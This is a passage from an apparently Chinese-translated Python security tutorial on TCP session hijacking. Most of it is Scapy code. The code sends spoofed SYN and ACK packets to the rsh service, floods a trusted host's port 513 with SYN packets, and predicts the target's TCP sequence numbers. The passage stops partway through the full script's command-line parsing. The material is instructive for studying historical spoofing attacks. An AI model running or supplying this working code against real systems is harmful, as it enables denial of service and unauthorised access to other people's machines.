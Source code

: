 在 Python 中重现这些，我们将生成和发送两个数据包。首先我们创建一个 TCP 源端口是 513 和目的端口是 514 的源 IP 地址是欺骗的服务器目的 IP 地址是目标 IP 地址的 SYN 数据包，接下来，我们创建一个相同的 ACK 数据包，增加计算的序列号作为额外的字段，并发送它。

```
from scapy.all import *
def spoofConn(src, tgt, ack):
    IPlayer = IP(src=src, dst=tgt)
    TCPlayer = TCP(sport=513, dport=514)
    synPkt = IPlayer / TCPlayer
    send(synPkt)
    IPlayer = IP(src=src, dst=tgt)
    TCPlayer = TCP(sport=513, dport=514, ack=ack)
    ackPkt = IPlayer / TCPlayer
    send(ackPkt)

src = "10.1.1.2"
tgt = "192.168.1.106"
seqNum = 2024371201
spoofConn(src,tgt,seqNum) 
```

将全部代码整合在一起，我们将增加一些命令行选项解析来指定要欺骗连接的地址，目标服务器，和欺骗地址的初始化 SYN 洪水攻击。

```
# coding=UTF-8
import optparse
from scapy.all import *

#SYN 洪水攻击
def synFlood(src, tgt):
    for sport in range(1024, 65535):
        IPlayer = IP(src=src, dst=tgt)
        TCPlayer = TCP(sport=sport, dport=513)
        pkt = IPlayer / TCPlayer
        send(pkt)
#预测 TCP 序列号
def calTSN(tgt):
    seqNum = 0
    preNum = 0
    diffSeq = 0
    for x in range(1, 5):
        if preNum != 0:
            preNum = seqNum
        pkt = IP(dst=tgt) / TCP()
        ans = sr1(pkt, verbose=0)
        seqNum = ans.getlayer(TCP).seq
        diffSeq = seqNum - preNum
        print '[+] TCP Seq Difference: ' + str(diffSeq)
    return seqNum + diffSeq
#发送 ACk 欺骗包
def spoofConn(src, tgt, ack):
    IPlayer = IP(src=src, dst=tgt)
    TCPlayer = TCP(sport=513, dport=514)
    synPkt = IPlayer / TCPlayer
    send(synPkt)
    IPlayer = IP(src=src, dst=tgt)
    TCPlayer = TCP(sport=513, dport=514, ack=ack)
    ackPkt = IPlayer / TCPlayer
    send(ackPkt)
def main():
    parser = optparse.OptionParser('usage%prog -s<src for SYN Flood> -S <src for spoofed connection> -t<target address>')
    parser.add_option('-s', dest='synSpoof', type='string', help='specifc src for SYN Flood')
    parser.add_option('-S', dest='srcSpoof', type='string', help='specify src for spoofed connection')
```